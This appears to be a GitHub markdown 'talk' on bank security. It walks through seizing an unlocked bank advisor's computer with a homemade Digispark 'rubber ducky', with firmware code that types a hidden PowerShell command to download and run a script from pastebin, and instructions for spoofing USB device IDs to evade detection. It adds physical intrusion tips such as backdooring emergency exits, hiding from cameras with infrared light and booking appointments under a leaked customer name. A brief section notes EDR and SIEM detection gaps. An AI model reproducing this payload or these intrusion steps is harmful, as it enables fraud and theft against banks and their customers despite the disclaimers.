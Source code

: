 # Talk 1: Bank Security

## Description

This talk is about bank security, don't use it for illegal purpose ! I make this talk to help people to choose a secure bank and improve the bank security posture.

## Why

I visited my bank and met my financial advisor, when i did it i saw some cybersecurity problems, so i choose to talk about those problems.

## Talk

### Access to computer

1. I didn't pentest the web server, reverse the javascript in the web interface or reverse the mobile app, because it's a bank i suppose it's *secure*.
2. If i don't exploit a vulnerability on the server i should exploit a user vulnerability. I will not speak about fake bank application, phishing or social engineering to access to only one customer account.
3. The vulnerability is: my financial advisor ! Yes, my financial advisor does not comply with security policies and it's real problem ! He don't close the office door, don't lock the Windows session and keep the session to the bank application (with this application and this account we can performs bank transfer from customers bank account).
    - He leaves his office during interviews for several tens of seconds
    - He leaves his office between interviews for few minutes

### How to take the control of a computer with few seconds

 - Simply by plugging in a [rubber ducky](https://lab401.com/products/rubber-ducky) USB stick

> What is the rubber ducky USB stick ?
>> The Rubber Ducky USB stick is a type of USB device that is designed to emulate a keyboard and execute pre-programmed scripts when plugged into a computer. It looks like a regular USB flash drive, but its functionality is quite different.
>> When connected to a computer, the Rubber Ducky can send keystrokes at a very high speed, allowing it to perform tasks such as opening a command prompt, executing commands, or downloading malware without the user's knowledge. This makes it a popular tool for penetration testers and security researchers to demonstrate vulnerabilities in systems, as well as for malicious actors to exploit those vulnerabilities.
>> The device is often used in security training and awareness programs to illustrate the importance of physical security and the potential risks associated with USB devices.

#### How to build you own sneaky rubber ducky

 - Buy a [Digispark](https://www.amazon.fr/AZDelivery-Digispark-Kickstarter-d%C3%A9veloppement-compatible/dp/B01N7SGC1I/ref=sr_1_1_sspa?adgrpid=1364494866886671&dib=eyJ2IjoiMSJ9.a_zlnx8CDHiTiw5zWe84asWUApy6p6W48dBlv8WL41sYg6_Mzg4hhjx0PU_Y4SGOxyjB2a41tZSxNGzGm1G2SWxInTYzjo85b4P-cCSLxJu-fAd8X-VK8yI_0qyqdrEk4jvI_RNy9RW0I9tlibKRJoelIngWissoKjBtuo_tzbaPmcO2LY3Cnasl_s6NxZzXxAu6SlMygwqdZ6XG8YXrmf9k0ZxrKtqZp9U5LV6PEsnRX4ye6AA0TmveIwHy0_WjOKMv3fI1Lio-s4pW-psrw3LBO8VaHvEoyv9tjtgkQKs.00oPPHcg-eaUa4nHLYkowHAjejjkr0X5EoGj1OM31FQ&dib_tag=se&hvadid=85281187819663&hvbmt=be&hvdev=c&hvlocphy=126810&hvnetw=s&hvqmt=e&hvtargid=kwd-85281456177274%3Aloc-66&hydadcr=28259_1882664&keywords=digispark&msclkid=3a600951561e187ca1de6e227ee642d5&nsdOptOutParam=true&qid=1735600856&sr=8-1-spons&sp_csd=d2lkZ2V0TmFtZT1zcF9hdGY&psc=1).
 - Install the [Arduino IDE](https://www.arduino.cc/en/software).
 - Open the Arduino IDE, click on *File* -> *Preferences*, add `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` in the *Additional boards manager URLs:*, click *ok*.
 - Click on *Tools* -> *Board:* and click on *Boards manager...*, in the search bar write `Digistump` and click on the `Digistump AVR Boards by Digistump`.
 - Click on *Tools* -> *Programmer:* and select `Micronucleos` as bootloader (it's a very small and fast bootloader for Arduino compatible boards).

Now, you can put your code:

```c
#include <DigiKeyboard.h>

// https://github.com/digistump/DigistumpArduino/blob/111396ffe5163c3613b9315cbea1a3eabc9ba6dc/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h#L66

void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(21, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(52, MOD_SHIFT_LEFT);
  DigiKeyboard.sendKeyStroke(52, MOD_SHIFT_LEFT);
  DigiKeyboard.sendKeyStroke(80);
  DigiKeyboard.sendKeyStroke(80);

  DigiKeyboard.print("powershell -windowstyle hidden -Command ");
  DigiKeyboard.sendKeyStroke(79);
  DigiKeyboard.print("iex(iwr -Uri 'https://pastebin.com/raw/bcjhnYKG').Content");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {}
```

 - Click on the *Upload* button (a *right arrow* button)
 - The Arduino IDE will compile the code
 - When the code is compiled, it will wait 60 seconds a new plugged Digispark, so you may plug your Digispark on a USB port
 - The Arduino IDE will flash the firmware
 - The Digispark will play the code

Okay, so we have the Rubber Ducky, but we have some limitations: 512 bytes of RAM and we have a good payload for *qwerty* keyboard but not for others keyboards. For qwerty keyboard and azerty keyboard i have developed a little [python script](https://github.com/mauricelambert/DigisparkRubberDuckyExecuteCommand) to generate your own code to execute a command on the victim computer without the RAM limitation.

 - When a new keyboard is plugged, the vendor and the device ID are stored on the Windows computer, if you want to be undetectable you should modify the `%LOCALAPPDATA%\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\DigisparkKeyboard\usbconfig.h` file, line 232 to change the vendor ID: `USB_CFG_VENDOR_ID` ([web page](https://devicehunt.com/all-usb-vendors) to identify a vendor ID) and line 241 change the device ID: `USB_CFG_DEVICE_ID` ([web page](https://www.usbvendor.com/) to identify a device ID).

You can list your Vendor ID and your Product ID with the following powershell code:

```powershell
Get-WmiObject Win32_PnPEntity | Where-Object {$_.PNPClass -match "Mouse|Keyboard"} | ForEach-Object {
    $hwid = $_.HardwareID | Where-Object {$_ -match "(HID|USB)\\VID_.*"}
    if ($hwid) {
        $v_id = ($hwid -split '&')[0] -replace '(HID|USB)\\VID_',''
        $p_id = ($hwid -split '&')[1] -replace 'PID_',''
        [PSCustomObject]@{
            Name = $_.Name
            VendorID = $v_id
            ProductID = $p_id
        }
    }
}

Get-ChildItem -Path HKLM:\System\CurrentControlSet\Enum\USB\ | ForEach-Object {
    $v_id = ((($_ -split '&')[0] -replace '(HID|USB)\\VID_','') -split '\\')[-1]
    $p_id = ($_ -split '&')[1] -replace 'PID_',''
    [PSCustomObject]@{
        VendorID = $v_id
        ProductID = $p_id
    }
}
```

#### What about detection and protection

In this case the better tools to mitigate the vulnerability is the EDR:
 - EDR should detect the new device (even if the device ID is already now because the driver is different), should detect the `Win+R`, should detect writing at 40 characters per second, should detect the `powershell` process creation, should detect the *hidden windows*, should detect the code downloaded from internet and executed **BUT** i try one of the best-selling EDR and there is no detection and no protection, only a telemetry for the process and nothing else... This EDR must have really, really good sales teams... And my configuration is the most restrictive mode (`protect/protect`, this mode block all suspicious behaviour).
 - SIEM can detect a new device (and probably not if the device ID is already know), so you don't have detection and don't have response (with SOAR or other tools to block the attack).

### Access to the office

The bank have 3 cameras on the same corridor, all people **should** use this corridor, but other ways to enter exists...

 - multiples windows (not very easy to use for a sneaky intrusion)
 - 2 emergency exits
     1. *Backdoor* the door during a legit visit
     2. Open the door from the outside with *some specific techniques*

### When

Take few days to know the financial advisor habits, you should identify good time for the intrusion.

### Others ways

 - Secretary have leaked the name of other customer, with this name you can use it to take a new appointment, use infrared light to hide your head on camera and exploit the vulnerability when financial advisor leave the office for few seconds during the interview.
 - When the financial advisor's screens are visible from the outside, it is possible to retrieve sensitives informations to performs the same attack.

## Conclusion

We have a vulnerability: the unlocked and unattended financial advisor computer with the authenticated financial advisor session. We have an access from the outdoor and we know the best time to do it... So, it's possible to pwn the bank...

Since few day, i have changed my bank, i think people should choice a secure bank and i hope this talk will help you to know which bank is secure.

> Don't use this talk for illegal purpose ! It's probably easy, in your dreams, to perform the attack described in this talk but in the real life is not and if you try you will go to jail. Keep in mind: if you have skills to perform this attack you will have a very good salary in a completely legal way so you won't even think of this idea.
